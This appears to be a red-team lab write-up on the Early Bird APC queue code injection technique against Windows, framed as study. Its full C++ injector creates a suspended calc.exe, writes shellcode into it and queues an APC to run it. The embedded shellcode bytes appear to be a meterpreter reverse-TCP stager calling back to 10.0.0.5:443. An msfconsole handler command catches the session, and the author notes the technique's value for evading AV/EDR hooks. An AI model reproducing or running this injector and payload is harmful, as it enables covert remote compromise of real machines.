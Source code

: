 # Early Bird APC Queue Code Injection

This short lab is related to a different version of the APC queue code injection technique I tinkered with here:

{% page-ref page="apc-queue-code-injection.md" %}

## Overview

High level overview of the technique:

1. A malicious program creates a new legitimate process \(say calc.exe\) in a suspended state
2. Memory for shellcode is allocated in the newly created process's memory space
3. APC routine pointing to the shellcode is declared
4. Shellcode is written to the previously allocated memory
5. APC is queued to the main thread \(currently in `suspended` state\)
6. Thread is resumed and the shellcode is executed
7. Meterpreter session established

One of the main advantages of this technique over the regular APC Queue code injection, is that in Early Bird technique, the malicious behaviour takes place early on in the process initialization phase, increasing the likelihood of going under the radar of some AV/EDR hooks.

## Execution

Below image \(top\) shows that I've hit the breakpoint on line 19, meaning that a new `calc.exe` process has been created in a `suspended` state \(defined in line 15\).

If we check the newly started `calc.exe` in the Process Hacker, we can confirm that the main thread is indeed `suspended` \(bottom\):

![](../../.gitbook/assets/annotation-2019-05-27-140139.png)

After line 19 is executed, we get the address of the newly allocated memory. This is where the shellcode will be written to:

```cpp
LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

![](../../.gitbook/assets/annotation-2019-05-27-140326.png)

Below shows how the shellcode gets written to memory address `0000023b82480000` of the `calc.exe` with:

```cpp
WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);
```

![](../../.gitbook/assets/writing-shellcode.gif)

Before continuing, let's fire up a multi handler on the attacking system so we can catch the meterpreter session:

{% code title="attacker@kali" %}
```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/x64/meterpreter/reverse_tcp; exploit"
```
{% endcode %}

Back to executing the malicious code - once the shellcode is written into the process memory, the APC is queued to the thread which is then immediately resumed. Resuming the thread in turn executes the shellcode which results in a meterpreter session:

![](../../.gitbook/assets/apc-meterpreter.gif)

## Code

{% code title="earlybird-apc.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>

int main()
{
    unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";
    SIZE_T shellSize = sizeof(buf);
    STARTUPINFOA si = {0};
    PROCESS_INFORMATION pi = {0};

    CreateProcessA("C:\\Windows\\System32\\calc.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    HANDLE victimProcess = pi.hProcess;
    HANDLE threadHandle = pi.hThread;

    LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;

    WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);
    QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);    
    ResumeThread(threadHandle);

    return 0;
}
```
{% endcode %}

## References

{% embed url="https://www.cyberbit.com/blog/endpoint-security/new-early-bird-code-injection-technique-discovered/" caption="" %}

{% embed url="https://www.youtube.com/watch?time\_continue=29&v=\_sI76NLPMjI" caption="" %}

